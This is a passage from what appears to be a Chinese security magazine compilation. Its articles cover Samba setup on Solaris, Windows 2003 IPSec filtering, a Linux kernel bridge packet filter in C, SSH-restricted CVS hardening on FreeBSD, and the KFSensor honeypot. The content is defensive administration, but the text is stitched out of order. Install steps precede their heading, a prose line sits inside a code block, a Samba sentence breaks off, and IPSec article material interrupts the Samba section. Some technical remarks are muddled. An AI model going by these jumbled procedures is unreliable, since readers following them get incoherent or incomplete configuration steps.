# cp samba-2.2.8a-sol8-intel-local.gz /tmp
# cd /tmp
# gzip -d samba-2.2.8a-sol8-intel-local.gz   // 解压缩
# pkgadd -d samba-2.2.8a-sol8-intel-local    // 包安装
```

> **小提示**：目前 wu-ftp 的替代软件是 vsftpd，在安全性方面有很大提高。

Samba 是由 Andrew Tridgell 开发并用于与 Windows 用户沟通。SMB（Server Message Block，服务信息块）可视作局域网共享文件/打印机协议，可向网络中的 Windows 和 Linux 机器提供文件系统、打印服务等。SMB 运行于 TCP/IP 之上，并可结合 NetBIOS Name Server，使 Linux 机器能在 Windows 网络邻居中被看到，从而实现双方互通与共享。

在安装过程中一路回车即可，直到看到下面信息即表示安装完成。

```text
Installation of <SMCsamba> was successful
同样安装 popt-1.7-sol8-intel-local.gz
# cp popt-1.7-sol8-intel-local.gz /tmp
# cd /tmp
# gzip -d popt-1.7-sol8-intel-local.gz
# pkgadd -d popt-1.7-sol8-intel-local
```

看到 `Installation of <SMCpopt> was successful.` 就是安装完成了！

### SMB 安装

下面我们一起来看具体过程。下载 samba 安装包，一般推荐去 www.samba.org 或 www.sunfreeware.com 下载，但热门时速度较慢。也可用 ftp.wayne.edu。

- samba-2.2.8a-sol8-intel-local.gz
- popt-1.7-sol8-intel-local.gz

### 配置 samba

配置 samba 有两种方式：一是命令行修改 `smb.conf`，二是图形化界面配置。先说命令行方式。若刚装好的 samba 运行时提示在 `/usr/local/samba/lib` 找不到 `smb.conf`，可在 `/usr/local/samba/` 下查找相关文档（如 `doc/` 目录）并按说明处理。

在 `samba/examples/simple` 里发现有个 `smb.conf`，直接 `cp` 到 `/usr/local/samba/lib` 就可以了。找一个最简单的配置就完成了，我们通过以下命令来启动 samba 服务：

```conf
# ./nmbd -D
# ./smbd -D
[global]
workgroup = workgroup
netbios name = ULTRA60
security = share
interfaces = 192.168.100.0
log file = /usr/local/samba/log/%m
guest account = pcguest
hosts allow = 192.168.100/255.255.255.0
[homes]
comment = Home Directories
path = /tmp
read only = No
guest ok = Yes
[printers]
comment = All Printers
path = /usr/spool/samba
print ok = Yes
browseable = No
```

当然，我们也可以根据具体的需求来写不同的配置文件：

```conf
[hardi]
comment = hardi
path = /home/samba/hardi
public = no
valid users = @group1 @group2 hardi
write list = hardi
printable = no
```

再来看一个例子：

```conf
[public]
comment = Read Only Public
path = /home/samba/public
public = yes
read only = yes
```

这个 conf 文件只是我个人的配置了，大家看了上面的配置也可以按照自己的一些想法去配置，只要格式正确就可以了。我们再来看看另一种配置的手法吧。它是通过 SWAT（Samba Web Administration Tool）来完成，也就是我们上文所说的使用图形用户界面（GUI）配置 samba。

samba 自带的 SWAT 在端口 901 上，是通过 inetd 作为一项服务来运行，可以在本地通过 Solaris 上运行浏览器管理 SWAT，也可以通过运行在 Microsoft Windows 上的浏览器进行远程管理。前提是可以访问到 samba 主机，并且 allow 项允许（在 samba.conf 文件的 `[global]` 项中的 hosts allow 子项中要允许这台机器访问）。添加 SWAT 服务名映射端口，在 `/etc/services` 中加入 swat 的端口。

```bash
# vi /etc/services
swat    901/tcp

# 设置 /etc/inetd.conf
swat stream tcp nowait.400 root /usr/local/samba/bin/swat swat
```

想要使更改生效，必须使用下面的步骤重新启动 inetd 服务：

```bash
# ps -ef | grep inetd
root   149   1  0 19:56:16 ?   0:01 /usr/sbin/inetd -s
# kill -HUP 149


```

然后就可以用 URL：`http://target:901` 访问 SWAT，samba 的所有设置功能在 GUI 里面都可以方便地实现。Samba 初始化访问要用 root 及密码访问（图1）。
设置好了以后，我们在 Windows 的网上邻居里就可以看到这个机器的名字了，然后点进去，输入用户名和密码，一切就搞定了。

> 从 Windows 上登录的用户，密码要和 samba 上用户的密码一致。

安全性来说，samba 的密码在 Windows 上是明文的，

| 适合对象 | 网络管理员、方案设计者 |
|---|---|
| 前置知识 | IPSec基础知识 |

Windows 2000时代的服务器防范更多集中在系统与程序应用层面（如IPSec）。自Windows 2003以来，系统功能有较大改进，带来了新的体验、功能与策略。后续将围绕Windows 2003提供相关技术资料与解决方案。

## Windows 2003.NET IPSec 配置全攻略
文／图 netbug

在网上关于如何设置IPSec的资料很多，但常常缺少“如何实际灵活使用”的说明。事实上，使用系统自带IPSec即可方便实现常用安全防护，并减轻额外软件负担。Windows 2003.NET提供了更易用且功能强大的IPSec，本文将系统介绍其应用。

IPSec通过加密保护服务、安全协议和动态密钥管理，来保障主机、站点、远程站点及Extranet间通信。它可限制特定通信类型，基于端到端安全在源/目标IP间建立信任。该模式适用于多种企业部署场景。

## IPSec 基本定义和功能

“Internet协议安全性（IPSec）”是一种开放标准框架，通过加密安全服务确保IP网络上的保密与安全通信。其设计目标主要包括：

- 保护IP数据包内容；
- 通过数据包筛选及受信任通信实施防御网络攻击。

适用场景包括：

- 局域网（LAN）：客户端/服务器与对等；
- 广域网（WAN）：路由器对路由器以及网关对网关；
- 远程访问：拨号客户端以及从专用网络访问Internet。

为了确保Samba的绝对安全，可在Samba中使用SSL实现。受篇幅所限，这里给出配置步骤：

- 获取并安装SSLeay（含FAQ），为编译带SSL支持的Samba做准备；
- 编译带SSL支持的Samba并安装；
- 为Samba服务器或访问客户端准备证书环境；
- 配置Samba使用SSL，指定服务器证书和私钥位置并设置参数；
- 理解并建立允许启用SSL的SMB客户端访问环境。

> 编后：编辑联系测试后确认在相关服务器平台上可成功部署Samba，现将本文刊发，供同好参考。

从中我们可以看出，我们用IPSec可以用在两个主要的方面，但最常见的用法还是在对数据包作安全过滤，起到防火墙的作用。

## 了解防火墙的基本原理之 IPSec

### 配置（小节标题）

防火墙的基本作用就是对进出网络接口的数据包做过滤。过滤的基本原则是：

- 总是默认允许数据包进出，除非我们规定哪些端口和IP被禁止；
- 总是默认禁止所有的数据包进出，除非我们规定哪些端口和IP被允许。

前一种原则主要用于公司、网吧、局域网内部。当网管需要开放大多数功能，但需要屏蔽如QQ、MSN服务等特殊功能的时候可以采用；后一种主要用在对外服务、Internet网络服务器上采用的办法——所以我们对服务器进行设置的时候，事先就应该设定好数据包的通信规则。这点和配置华为、思科等路由器包过滤的原则是一样的。

下面我们来看一个具体的例子：我们假设有一台IBM服务器x255完全裸露在Internet上，外层没有任何防火墙，我们采用“默认禁止”的原则来配置它：

- 禁止所有的数据包通过；
- 在前一条规则的基础上打开FTP和WWW服务；
- 为了增强安全性，对外部屏蔽ICMP响应。

采取这样的策略，当外部有人扫描我们的计算机的时候，普通的ICMP扫描无法返回信息，使用SYN刺探等方式只可以看到21和80两个端口开放，完全杜绝攻击者企图从其他端口进攻的想法。

下面我们来看IPSec的具体配置。

- 通过MMC控制台启动“IP安全策略”，开始进行配置。首先我们通过选择“创建新的IP策略”来创建新的策略（图1）。
图1

然后在下一步的对话框中取消“激活默认响应”这个选项框。很多网友都不知道为什么要取消，其实，IPSec默认响应只在域模式或者隧道模式中才起作用，所以在数据包过滤中作用不是很大。

紧接着我们来编辑策略的属性，这是比较重要的地方。在这里我们需要添加两条行动规则：允许通过规则；禁止通过规则。
图2

禁止通过规则对应于上图中的“阻止”。这样就可以看到IPSec的管理规则缩小到只有两条了。允许的规则里面包含所有可以通过的数据包，禁止的数据包里面是对所有IP地址任何协议的屏蔽。这点大家需要注意，千万不要把所有的允许、禁止数据包放在一堆（图3）。
图3

最后就是对IP策略添加具体的数据包过滤。这方面有很多相关文章，我就不多说明了，更多的细节大家可以看看下面的筛选规则：IPSec需要在筛选器列表中指定的计算机之间同时有入站和出站筛选器。入站筛选器应用于传入通信，出站筛选器应用于离开计算机发往目标的通信。例如，如果计算机A要与计算机B安全地交换数据：

- 计算机A上的活动IPSec策略必须有针对发往计算机B的任何出站数据包的筛选器（Source=A，Destination=B）。
- 计算机A上的活动IPSec策略必须有针对来自计算机B的任何入站数据包的筛选器（Source=B，Destination=A）。
- 每方都必须有反向的筛选器：
  - 计算机B上的活动IPSec策略必须有针对来自计算机A的所有入站数据包的筛选器（Source=A，Destination=B）。
  - 计算机B上的活动IPSec策略必须有针对发往计算机A的任何出站数据包的筛选器（Source=B，Destination=A）。

| 难度等级 | 图 |
|---|---|
| 前置知识 | Linux使用技巧、包过滤的基本含义、Socket套接字编程 |

刘流：Linux在很多关键性部门起着相当重要的作用，如何使你的Linux起到包过滤的功能呢？如何充分发挥Linux的关键性作用呢？相信喜欢Linux的朋友们不会错过这篇文章。

## 在 Linux 上实现包过滤防火墙

文/图 吴具植

## Linux内核网络接口分析

Linux操作系统的实现起源于BSD UNIX发展的Berkeley套接字API工业标准，它把Internet协议的地址族实现为一系列链接起来的软件层，其网络接口的实现如图1所示。

其中，BSD套接字只能由与其相关的套接字管理软件支持，Net套接字层支持套接字管理，它管理的通信端点的IP是基于TCP和UDP协议的。UDP是一个无连接协议，而TCP是一个可靠的面向连接的协议。当发送UDP包时，Linux既不知道也不关心它们是否安全地到达了它们的目的地。TCP是有连接的，TCP连接的发送端都要确保发送的数据被正确地接收。IP层包括实现Internet协议的代码，这个代码命令IP层发送数据。在IP层的下面，由网络设备来支持所有的Linux网络，例如PPP和以太网。

网络协议分许多层的一个问题是：每一层都使用其他层的服务，即每个协议需要在发送数据时给数据加协议的头和尾，在接收数据时去掉协议的头和尾。这样就使在协议间传送数据缓冲困难，因为每一层需要发现它自己协议头和尾的位置。一个解决的办法是在每一层都拷贝缓冲，但是那样做效率就比较低。Linux使用套接字缓冲和sk-buff在协议层和网络设备间传递数据，sk-buff的结构如图2所示。对sk-buff的操作代码为向协议数据添加和去掉协议头尾提供了标准机制。
## 系统模块划分

透明包过滤系统防火墙的主要功能是对接收到的以太网帧进行分析，根据过滤规则来处理封装在以太网帧内的IP数据包。在实现系统时，我们主要使用Linux操作系统内核中定义好的数据结构，这样就可以避免太大的内核改动。根据系统功能将系统划分为以下模块：以太网帧接收模块、以太网帧处理模块、包过滤模块、帧发送模块和MAC地址缓存模块，各模块的功能如下：

帧接收模块：完成以太网网桥接收以太网帧的功能，将数据封装在标准的数据结构sk-buff中，并对网络接口中的各项参数赋初始值。

帧处理模块：从以太网帧中提取协议信息，并判断是否是IP数据包，如果是，将提交给包过滤检测系统进行处理。

包过滤检测模块：完成系统对IP包过滤功能，主要是将IP包中各种信息和过滤规则表进行匹配。

帧发送模块：将要发送的以太网帧从网络接口发送到网络上。

MAC地址缓存模块：主要是对交换的MAC地址保存，是一种以太网桥生成树算法的实现。各模块间的工作示意如图3所示。在这5个功能模块中，有些在Linux系统中已经实现，我们只需分析清楚它们的功能接口并把它们加入到我们的系统中，而帧处理模块、包过滤检测模块才是本系统实现的关键，需要开发并实现它们的所有功能。
## 防火墙过滤规则表实现

包过滤是一个网络安全保护机制，它用来控制流出和流入网络的数据。在向目标转发数据包的过程中，本系统要查看数据包的目的地址并且决定如何转发这个数据包，同时还考虑是否应该转交这个数据包，因此，本系统的包过滤将基于以下报头内容控制数据包的转发：

- 数据包的源和目的网络地址（或范围）；
- 数据包的源和目的地址（或范围）；
- 数据包的源和目的端口（或范围）；
- 用来传送数据包的协议。

根据IP数据包的源和目的网络地址进行判断，可以用来限制网络级别的访问控制，规定网络对子网的控制策略；根据IP数据包的源和目的地址进行判断，可以用来限制主机级别的访问控制，对特定流向或地址的流量进行过滤，屏蔽来自特定地址主机的访问；对于端口地址的过滤，可以提供高层协议详细内容的过滤，如可以单独对23端口的Telnet服务过滤，而开放其他端口的服务；对协议过滤主要是考虑IP包可以封装的数据有TCP、UDP、ICMP等不同协议的数据。

对过滤规则的定义不仅要考虑到我们的过滤策略，而且需要考虑到和Linux操作系统内核的要求，所以我们对此项数据结构的定义参照Linux内核中的数据结构进行了定义。有些变量在过滤表中不会用到，但仍然定义了它，以保证和Linux的有效结合。具体的过滤规则结构如下：

```c
struct ip_fw {
    struct ip_fw *fw_next;      // 下一条规则
    struct in_addr fw_src, fw_dst;      // 源、目的IP地址
    struct in_addr fw_smsk, fw_dmsk;    // 源、目的地址掩码
    struct in_addr fw_via;      // 网络接口
    struct device *fw_viadev;   // 设备接口
    unsigned short fw_flg;      // 标志字段
    unsigned short fw_nsp, fw_ndp; // 源、目的端口
    unsigned short fw_pts[10];  // 端口队列
    unsigned long fw_pcnt, fw_bcnt; // 包数和字节数
    unsigned char fw_tosand, fw_tosxor; // 修改的包权限
    char fw_vianame[IFNAMSIZ];  // 网络接口名字
};
```

过滤规则表定义为：`ip_fw *ip_fw_fwd`。本系统将所有的过滤规则表保存在内存区域中，整个过滤规则表由一个单链表组成，对过滤规则的增加、删除、修改等操作也就是对此链表的增删改等操作。链表中每个数据的内容就是一条过滤规则。

定义了最基本的过滤规则内容和过滤规则表的操作方式，下一步将考虑过滤操作的过程。在过滤中需要注意一些细节问题：也许IP报文中封装的数据可能是经过分片的数据，这样的话我们就不能提取高层协议的信息了，如TCP、UDP的端口号。这时候我们的处理原则是将这样的包一律通过，额外的检查是没有作用的。如果采用一律丢弃的方法，可能会把允许通过的包也丢弃掉，因为过滤规则的判断条件不只是IP地址而且还有高层协议的端口号。采用一律通过对系统的过滤功能是不会有影响的，因为如果到达接收端的数据被禁止了，那带有高层协议报文的那个IP包一定会被丢弃，所以接收端接收到其他报文后不能正确重组也会将其丢弃，同样会达到过滤的效果。

在实际的使用中，管理员可以根据本单位的实际情况和保护策略来制定自己的过滤规则，过滤规则表就随环境和政策的不同而设定。

根据过滤规则表，系统可以判断是否让一个数据报通过防火墙。当判断一个IP包不能通过防火墙时，系统采取两种手段来对此包作处理：一种是仅仅将其丢弃而不做任何处理，这种过滤手段称为否认（Deny）；一种是在将报文丢弃的同时，向发送主机发送ICMP的主机不可到达报文，通知发送主机不能访问，这种方法称为拒绝（Reject）。这两种过滤方法的不同之处主要是针对发送主机是否能感受到它发送的IP包已被拒绝。

在许多网关（路由器）中使用的过滤规则中，它们还要使用网络接口来作为过滤依据。这一点主要是为了判断是否接收的数据是发送给本机的，或要发送的数据是否是本机发送的。在本系统中，我们可以把它配置成无IP的，所以不会有发送给它本身的数据报，也不会向外发送数据报，它只是对接收到的数据进行转发，所以本系统的过滤规则表不采用网络接口作为过滤规则，相对简化过滤规则，但可以完成相同的功能。

## 透明桥上的过滤实现

当系统接收到以太网帧的时候，它首先要判断此以太网帧内传送的数据是哪种高层协议的数据，然后将IP数据包的内容交由过滤规则模块实现。以太网网桥的帧接收模块已经将接收的帧封装在统一的数据结构sk_buff中，我们对此数据结构进行处理就可以得到所有想要的信息。如果判断出以太网帧中封装的是IP包，我们没必要再开辟新的空间来保存IP包，直接用指针移动来指到IP包头就可以了。这样做可以加快系统的处理速度，系统的所有检查都是通过指针移动来实现的，而没有必要使用新的内存空间来保存IP包的数据。对于允许通过的包，系统将进行转发；如果不允许通过，系统将释放其缓存区，丢弃报文。

Linux系统网桥实现的源代码在`/usr/src/linux/net/bridge`下，其中`br.c`是网桥实现的主程序。我们在其基础上进行修改，实现包过滤模块，在转发以太网帧之前对报文进行过滤。

```c
int br_check_frame(struct sk_buff *skb)
// 以太网帧处理模块，返回1表示通过，返回0表示不通过
{
    struct device *dev;
    int fwres = 0;
    int Canpass = 1;
    struct iphdr *iph;
    struct ethhdr *eth;
    int offset;

    eth = (struct ethhdr *)skb->data;
    if (eth->h_proto == ETH_P_IP) {
        offset = ETH_HLEN;
        iph = (struct iphdr *)(skb->data + offset);
        dev = skb->dev;
        fwres = call_fw_firewall(PF_INET, dev, iph, NULL);

        switch (fwres) {
        case FW_ACCEPT:
            Canpass = 1;
            break;
        case FW_REJECT:
        case FW_BLOCK:
            Canpass = 0;
            break;
        default:
            Canpass = 1;
            break;
        }
    }

    // 过滤分析的结果处理
    return Canpass;
    // 将是否允许通过的标志返回给转发模块
}
```

修改内核过滤规则加入之后，需要将系统配置成一个透明桥系统并使其工作。网卡可在正常模式、调试模式、全混模式下工作。为接收所有数据包并进行过滤分析，应将网卡设置为全混模式。

```bash
ifconfig eth0 promisc
ifconfig eth1 promisc
```

这样网卡就可以接收所有的数据包了。网络接口可统一设置为无IP地址状态（例如127.0.0.1用于本地回环），以保证系统透明转发。

## 系统性能分析

- **安全性能分析**：系统不具备对外IP地址，能够较好抵御入侵活动，提高Linux系统安全性。
- **网络性能分析**：系统工作在数据链路层，交换效率高于网络层防火墙。
- **系统性能分析**：包过滤防火墙作为网桥运行，主要是指针移动与比较操作，对系统性能影响较小，具备较好透明性。

## Windows 2003.NET IPSec 续

2003的IPSec应用是非常广大的，但是如果只是用IPSec配置防火墙，那么上面我们介绍的细节就足够了。如果你想把它应用到L2TP、VPN等上面，你可以仔细研究一下IPSec的应用与部署。Windows 2000和Windows 2003.NET的配置策略可以导出通用，但是建议使用Windows 2003.NET的IP策略，因为2003.NET的漏洞比2000相对少些，而且最近出了其SP1，安全性又提高了一些。希望大家都能通过IPSec配置一个比较安全的服务器，杜绝常见的网络攻击。

> 编后语：现在的网络安全性要求越来越高，我们推荐读者朋友采用Windows 2003.NET、IPSec来充当性价比很高的防火墙，以保护企业服务器的安全。以前总采用网卡上面的防火墙，或者直接装个人防火墙，但总觉得缺少更具体的细度。而且最郁闷的是WTF老是想办法穿透我们的防火墙，现在有了IPSec，它也可以防护WTF的扫描和攻击了！（WTF？弄半天就为防我这个啊，晕倒……）

## 编后语

> 文章作者以简练而深刻的语言，说明了用Linux实现包过滤的基础机制与原理。即使对Linux了解不多，也可以举一反三，借鉴其思路实现相关过滤程序。

刘流：CVS 是一种版本控制系统，它可以实现版本的并发管理；即使多个用户同时改动同一个文件也不会互相影响。CVS 会对各用户提交的文件进行比较，进而把那些不同的部分按照某种算法进行合并形成一个新的版本。CVS 好用，但其安全同样重要，本文从 CVS 验证角度出发，具体讲述了如何构建一个基于 SSH 验证的 CVS 服务器。

### 构建基于 SSH 验证的 CVS 服务器

文／图 delphi

口令（pserver）验证和 SSH 验证是 CVS 目前最常用的两种验证方式。口令验证方式的配置非常简单，其缺点也非常明显，最严重的问题是：由于 pserver 方式中所有的网络传输都是明文的，如果在网络中存在嗅探器，则攻击者不仅能够获取通过 CVS 传输的资料（通常是源码），而且甚至可以得到用户的口令；另一方面，穷举口令相当容易！

基于 SSH 验证的 CVS 有诸多的好处。首先，所有的传输都加密，因此，不需要担心泄密问题，而且用户可以通过 SSH 指纹来确保自己没有连接到某个实施中间人攻击的入侵者服务器上；其次，采用公钥认证时，由于用户的私钥通常是 2048-4096 bit，因此，通过暴力破解（类似对 pserver 的口令穷举）是很不现实的。最后，由于不需要开放 pserver 端口，外界很难知道这是一台 CVS 服务器。

本文将以 FreeBSD 5.2 为例介绍如何安装和配置基于 SSH 验证的 CVS 服务。

## 前期配置

由于 FreeBSD 基本系统中包含了 CVS 和 SSH，因此，只需要下载一张 mini 的 ISO（对于 PC 兼容机，应该下载一个叫做 5.2-RELEASE-i386-miniinst.iso 的文件，它可以在 FreeBSD 的各个 FTP 镜像找到），在验证过其 MD5 正确性之后刻成光盘启动并安装就可以了。安装的时候只需要装基本系统 + Perl 就足够了。对全新安装，可以完全采用默认值——从 Standard 进去，分区按 A 接受默认设置，然后按 Q 保存，Distribution 选择 Minimum；装完后配置网卡的 IP 地址，重新启动即可。

顺利的话，上面的过程不到 10 分钟就可以完成。然后我们首先来加固操作系统本身的安全。以 root 身份在 /etc/rc.conf 中加入下面的行；在 /etc/sysctl.conf 中增加相应配置。

```bash
sshd_enable="YES"      # 启动 OpenSSH
syslogd_flags="-ss"    # 阻止外来的 syslogd 请求
sendmail_enable="NO"   # 只允许送出邮件

# 在 /etc/sysctl.conf 中增加
net.inet.tcp.blackhole=2
net.inet.udp.blackhole=1
kern.coredump=0
kern.maxfiles=8192
```

上面的设置主要是阻止半开式端口扫描，禁止 coredump（除非你打算在这台机器上认真地调试程序），增加允许打开的文件数目。最后，在 /boot/loader.conf 中增加下面的行：

```bash
hw.ata.wc="0"
autoboot_delay="0"
beastie_disable="YES"
kern.ipc.nmbclusters="32768"
```

上面的修改中，第一行是关闭 IDE 硬盘上的写入缓存，因为对于需要保存重要数据的服务器来说，写入缓存带来的那一点性能提升和潜在的丢失数据的危险相比实在是太微不足道了；此外是提高启动速度（启动的时候不显示菜单、不等待）和抗御 DoS 攻击的能力（参考 tuning(7)）。

## 配置 CVS 和用户

上面这些设置已经足以让系统的安全强化不少了。关掉编辑器回到 shell 状态，创建一个用于 CVS 用户的组 ncvs：

```bash
pw groupadd ncvs
```

所有的 CVS 用户都应属于这个组。为方便 ACL 的配置，ncvs 应该是这些用户的“主要”组（换句话说就是 adduser 时的“Login group”或 master.passwd 中用户所属的组）。用 adduser 脚本来添加用户非常简单，除了 Login group 之外，“Use password-based authentication” 一定要回答 no，剩下的都接受默认值就好了。如果非常在意安全，也可以写个脚本来作为用户的 shell（过滤输入，只允许执行很少的一些命令），不过，这么做比较复杂，而且我们在后面会介绍通过 SSH 限制的方法，因此，这里不具体介绍怎么做了。

初始化代码库：首先建立一个空的目录，然后用“cvs -d 完整路径 init”来完成初始化工作。这里需要注意，目录的权限最好是 770 或 775，也就是说，同组的用户应该有可写权限。整个目录应该属于某个 ncvs 组的成员和 ncvs 组。

```bash
mkdir -p /home/ncvs && cvs -d /home/ncvs init &&
chmod -R 775 /home/ncvs
chown -R delphi:ncvs /home/ncvs
```

一般为了便于管理，CVS 管理员会通过 CVS 的“hook”来实现一些权限控制功能。我自己使用的 CVSROOT（下载地址：http://resources.delphi.net/projects/CVSROOT.tbz）包，从刚刚创建的那个代码库中把原来的 CVSROOT checkout 出来，再把这份展开、覆盖上去，作一些修改然后 add、commit 上去就能用了。

请参考文件中的注解修改 cfg_local.pm 中的一些参数。另一个需要设置的地方是 access，这个文件包括所有允许 commit 的用户名，而 avail 则是我们的 ACL（哪些用户/组允许在哪些目录里面修改文件）。

## 强化 SSH 安全

在 /etc/ssh/sshd_config 最后加上几行：

```bash
Protocol 2
VersionAddendum WhoAmI
PasswordAuthentication no
```

上面的设置保证只有使用更安全的 SSH2 协议才能登录，此外，禁止通过 SSH 采用口令登录。

有经验的 *nix 管理员都知道给用户开 shell 权限是一件危险的事。在 Linux 中，任何用户都可以使用 su，假如这个用户恰好还知道 root 口令，那么他就能变为 root；在 FreeBSD 里面情况略好一点——只有 wheel 组的成员可以执行 su，但总之，一般的 CVS 用户不需要使用 shell，只要登录过来看到正常的 CVS 响应就可以完成所有的 CVS 操作了。

用户在本地使用 ssh-keygen -t dsa -b 2048 生成自己的密钥对，然后把对应的那个 .pub（公钥）发给管理员。管理员以 root 身份执行下面的命令：

```bash
su - 用户名
mkdir -p .ssh && cd .ssh && cat >> authorized_keys
```

然后开始粘贴用户的 .pub 文件。用户的 .pub 文件是 ssh-dss 开头的一大串字符，然而不要忙着贴它，我们需要在前面加上一串：

```bash
command="/usr/bin/cvs --allow-root=/home/ncvs server"
```

其中，allow-root 是用户允许访问的代码库根目录，如果需要访问不同的代码库，可以写多个 allow-root。这样，实际粘贴的内容应该像下面的样子：

```bash
command="...server" ssh-dss AAAA...


```

这样做以后，以用户的这个私钥登录过来看到的将不是 shell 的提示，而是 CVS 服务协议。

## Windows 下的用法

很多流行的 CVS 客户端都提供了 SSH 支持，WinCVS 本身并不包含 SSH 客户端，因此需要安装 Cygwin，并使用其中的 OpenSSH。这里假定 Cygwin 安装在 C:\cygwin，在其中生成自己的密钥对（和 *nix 中一样），打开 WinCVS，在 Admin 菜单中选择 Preferences，然后把 Authentication 改为 ssh（图1）。同时，还需要在 Settings 里面设置自己的私钥的位置，以及 SSH 客户端的位置（图2）。

日常的操作和口令验证的 CVS 是一样的，唯一的区别是，由于所有的操作都通过 SSH 进行，因此，不需要在界面中 login。

## 其他安全性考虑

在按照本文配置的 CVS 服务器上，唯一需要对外开启的端口就是 SSH（TCP 22）。即使需要发送邮件，也不需要对外打开 SMTP（TCP 25）端口。因此，非授权用户攻击系统是非常困难的。登入系统的用户（拥有 CVS 权限的那些），由于受到了 ncvs 组身份的限制，即使设法切出一个 shell，也很难实现特权提升（在 SSH 方式下，用户的每次登录会启动一个以他的身份运行的 CVS 服务实例，而不是像 pserver 模式那样以 root 或 CVS 服务的身份运行）。

对于不做 HTTP 服务的 CVS 服务器，可以在 /etc/rc.conf 里面加入 tcp_drop_synfin="YES" 来阻止操作系统探测。

FreeBSD 的 security(7) manpage 提供了进一步的安全设置资料，你可以参考它进行设置。

> 后记：CVS 对于已经靠网络协作开发的朋友来说一定非常熟悉了。如果我们的 CVS 日常会使我们团队非常苦恼的源代码没有用心地在网络中获取、共享，实在难以想象。看完本文后，我想你对这款基于 SSH 验证的 CVS 服务器的安全性一定已经有了了解；如果你正准备来架设自己 CVS 服务器，本文应该是你最好的向导了。

## IDS+Honeypot = 骇客克星

刘流：看到“骇客克星”是不是感到很奇怪？骇客从来都是在网络上来无影去无踪的，难道他们也有害怕的东西？事实确实如此。个中缘由，且听我细细道来。

文/图 网络游侠

一般来说，像我这样的菜鸟还有众多的 MM，对“骇客”这个称呼有种发自内心的崇拜感和惧怕感。为什么呢？在一般人眼里，骇客是无所不能的。在强大的对手面前，我们真的就束手无策吗？我一直固执地这么认为，直到我遇到 KFSensor！

什么是 KFSensor 呢？用该软件帮助文档里面的一句话说就是：KFSensor is a honeypot based Intrusion Detection System（IDS），也就是一款基于入侵检测系统的蜜罐。菜鸟要问了：什么是入侵检测（IDS）呢？IDS 是一种防御技术，IDS 主要通过监控网络和系统状态、行为以及系统资源的使用情况，来检测内部账户的越权使用和外部的入侵企图。

想想吧，有了入侵检测，你就可以完全地监控你的网络。基于主机的 IDS 可以凭借各种日志获取骇客的蛛丝马迹；基于网络的 IDS 更可以对出入网络的每一个数据包进行捕获、分析。

菜鸟又要问了：蜜罐（Honeypot）？听名字比较诱人啊，好像比较好吃！蜜罐是一种专门为“诱拐”骇客设计的运行在网络上的系统。一般来说，蜜罐是一套包含有漏洞的系统或者模拟有漏洞系统的程序。比如我们可以找一台电脑，装上没有任何补丁的 Windows 2000 Server，放一套千疮百孔的 ASP 程序，当然要没有重要数据的了。

请相信，这样的机器放到网上是很受人“欢迎”的。然后呢？你就可以通过一些预先设置的程序捕获骇客的一举一动。比如你可以设置一个登录脚本，捕获入侵者的用户名、密码、IP 地址；可以装一个键盘记录软件记录骇客的每一次击键。Honeypot 实际上是 IDS 的一个分支，一个非常有发展前途的分支。

## KFSensor 介绍

KFSensor 是一款基于 IDS 的 Honeypot，所以自然兼有 IDS 和 Honeypot 的特点。我们以 KFSensor 2.1.4 为例进行讲解。软件可以在 www.kfsensor.com 下载得到，不过下载的时候要注册才显示下载地址，界面也是英文，比较繁琐。也可以在我的小站 www.xijing.org 下载得到它的最新版本。因为这是一款商业软件，我们下载的体验版只能免费使用 14 天，不过对我们学习来说这也足够了。

软件安装不说了，安装后重启会有一个配置向导，基本上是一路回车的，如果有疑问可以随时点击帮助获得技术支持。配置好之后让我们先来目睹一下 KFSensor 的“芳容”（图1）。

见到这个界面的时候，是不是感觉很清爽？所以千万要摒弃“功能强大就一定配置繁琐”的想法。看看菜单栏，只有 File、View、Scenario、Settings 和 Help 几项。说实话，光看菜单真的有点感觉 KFSensor 不怎么耐用。

关于 File，我实在不想多说，无非是导数据、开关软件，即使比我还菜的也能看明白。只有一点需要注意，就是你可以选择把该软件作为系统服务来启动（Install As System Service）。

View 栏，主要是设置显示的方式，比如设置是否显示某项监控内容、按照时间显示事件等。有一项比较有特色，就是按照 Ports 显示或者按照 Visitors 显示。如果选择前者，会看到图1样子的界面，把所有的事件按照属于 TCP 协议或者 UDP 协议来分类。如果选择按照 Visitors 显示，就是图2的样子。所有的事件都按照 Visitor 的 IP 分类了，这样可以精确地查询来自某个主机的威胁，保证每次入侵机器进行的尝试操作都会记录下来。

图2中显示的就是来自 IP 地址 192.168.10.168、主机名 Johnathan 的主机对服务器扫描的情况。KFSensor 还会按照事件的严重程度进行分类：Low、Medium 和 High，分别代表低度威胁、中度威胁和高度威胁，并且分别用颜色为灰色、黄色、红色的报警喇叭标注，很直观。

菜单栏第 3 项是 Scenario，下面一共有 6 项，分别是：转换 Scenario、编辑 Scenario、编辑激活 Scenarios、编辑激活规则、编辑激活 Proxy 规则和编辑简单服务。在 Edit Scenarios 中，可以修改 Scenarios 的名称、IP 地址以及更多的设置（图3）。

双击“IIS”，我们可以把 IIS 的 80 端口的 Listen 状态改成 false 或者 true，相当方便。我们也可以选择“Change All”来改变所有可以改变的项目（图4）。

同时还可以选择绑定的地址，之后点击后面的“Change”，也可以一次设置端口监听模式是否是 Active，可以设置这个事件的严重级别。当然也可以添加一个监听的端口（图5），比如添加针对冰河的 7626 端口。

Edit Active Scenario、Edit Active Rules 和 Edit Active Proxy Rules 和上面的过程差不多，就不多说了，要不该有“进行半重复性写作，浪费读者时间并骗取老编稿费”的嫌疑了。

在 Edit Sim Servers 里面，我们可以看到设置服务的名称、类型、端口和描述（图6）。我们看一下最熟悉的 IIS（图7），可以设置的项目很多，设置也简单，但是功能却绝对强大！甚至可以在这里面设置 IIS 的路径、定义 IIS 首页文件名！再看一下 Linux 的 SendMail（图8），怎么样，功能绝对强大吧？想想，如果把图8里面的 Banner 修改成“Qmail”，那么骇客会不会感到极度郁闷？

在 Settings 里面，我们可以设置一些关于 KFSensor 的东西，比如拒绝服务攻击、Email 报警等。无非填写几个数字、设置一级别、填写一下地址，让人充分体验到了“强大易用”的理念。如果你的检测要求比较高，甚至可以设置把日志写入到 SQL 数据库中，当然前提是你必须安装 SQL Server 或者 MySQL。

## 应用实例

上面啰啰嗦嗦地说了这么多基础性的东西，下面我们就来实际应用一下 KFSensor，相信你一定会为它强大的功能所叹服（其实游侠也同样为其 831.13 欧元或 990.00 美元的售价叹服——比 Windows 还贵哦）。

配置好 KFSensor 之后，打开 Active Ports 查看一下本机的活动端口，如果是图9所示的样子，就证明 KFSensor 开始工作了：

